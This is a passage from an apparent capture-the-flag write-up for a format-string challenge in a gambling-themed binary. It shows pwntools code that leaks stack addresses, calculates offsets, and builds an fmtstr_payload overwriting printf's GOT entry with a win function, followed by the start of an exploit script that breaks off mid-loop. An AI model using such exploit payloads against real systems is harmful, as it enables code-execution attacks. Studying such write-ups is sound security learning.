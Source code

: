 		```
		# got the offset = 8
		for i in range(10):
			p.sendlineafter('Press any key to continue...', b'\nc')
			p.sendlineafter("what's your handle?", '%{}$p'.format(i + 1).encode())
			gamble()
		```
	* get the addr of player name
	
		```
		p.recvuntil(b"Hello friend, welcome to FTX. what's your handle?")
	p.sendline(b"%1$p")
		```
	
	* get the offset to printf
	
		- calculating the offset by look at the got table & the addr of player name which is 640
	
	* get the offset to win func
		- gdb: info address win by substract the addr of player name which is 12351
		
		-  or by the printf in code offset is 0x4258 - the win in the code offset is 0x1219 = 12351
	* payload 
	
		```
		payload = fmtstr_payload(offset=8, writes={printf_addr: win_addr})
		```
		
#### pwnscript

```
import math
from pwn import *


def is_fibonacci(num):
    def is_perfect_square(n):
        return int(math.sqrt(n)) ** 2 == n

    return is_perfect_square(5 * num * num + 4) or is_perfect_square(5 * num * num - 4)


def hextoint(hex):
    return int(hex, 16)


def gamble(debug=True):
    p.recvuntil(b"What will you do?")
    p.sendline(b"g\n")
    line = p.recvuntil(b"): ")
    try:
        decoded_line = line.decode('utf-8')
    except UnicodeDecodeError:
        decoded_line = line.decode('latin-1')

    max_value = float(decoded_line.split("max")[1].strip("(): "))
    bet_value = max_value / 2
    # print('bet_value: ', bet_value)
    p.sendline(str(bet_value).encode())
    #
    p.recvuntil(b"*** GAMBLE ***")
    p.recvline()

    options = []
    for i in range(10):
```